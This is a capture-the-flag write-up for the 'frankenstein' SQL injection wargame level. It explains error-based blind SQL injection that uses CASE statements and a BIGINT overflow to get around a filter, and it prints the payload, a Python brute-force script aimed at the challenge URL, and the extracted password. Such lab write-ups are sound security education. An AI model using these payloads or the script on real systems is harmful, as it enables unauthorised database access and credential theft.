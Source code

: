 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Character at index 1: 0
[+] Character at index 2: d
[+] Character at index 3: c
[+] Character at index 4: 4
[+] Character at index 5: e
[+] Character at index 6: f
[+] Character at index 7: b
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```

If we provide the following URI parameter:

```
?pw=0dc4efbb
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='0dc4efbb'
```

![[2 210.png]]

